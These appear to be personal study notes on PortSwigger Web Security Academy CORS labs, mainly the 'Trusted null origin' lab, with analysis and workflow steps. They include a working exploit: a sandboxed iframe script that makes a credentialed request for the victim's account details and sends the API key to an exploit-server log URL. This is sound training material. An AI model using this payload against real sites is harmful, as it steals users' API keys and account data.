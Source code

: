 3. In the browser, go to the exploit server and enter the following HTML, replacing `YOUR-LAB-ID` (which is reflected in host header) with your unique lab URL:
	![](Pasted%20image%2020250304114703.png)


# 2. Trusted null origin
This website has an insecure CORS configuration in that it trusts the "null" origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.
You can log in to your own account using the following credentials: `wiener:peter`

**Analysis:**
1. Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
2. Send the request to Burp Repeater, and resubmit it with the added header `Origin: null.` Observe that the "null" origin is reflected in the `Access-Control-Allow-Origin` header.
3. In the browser, go to the exploit server and enter the following HTML, replacing `YOUR-LAB-ID` with the URL for your unique lab URL and `YOUR-EXPLOIT-SERVER-ID` with the exploit server ID:
    ```javascript
    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);  //(host that u want to replicate)
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='YOUR-EXPLOIT-SERVER/log?key='+encodeURIComponent(this.responseText); //attack server where exfiltrate
    };
	</script>"></iframe>
    ```
    Notice the use of an iframe sandbox as this generates a null origin request.
    
4. Click "View exploit". Observe that the exploit works - you have landed on the log page and your API key is in the URL. Go back to the exploit server and click "Deliver exploit to victim". Click "Access log", retrieve and submit the victim's API key to complete the lab.

**Workflow:**
1. Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS. (also notice that injecting origin with a random value url is not reflected)
	![](Pasted%20image%2020250307022039.png)

2. Send the request to Burp Repeater, and resubmit it with the added header `Origin: null.` Observe that the "null" origin is reflected in the `Access-Control-Allow-Origin` header.
	![](Pasted%20image%2020250307022336.png)
	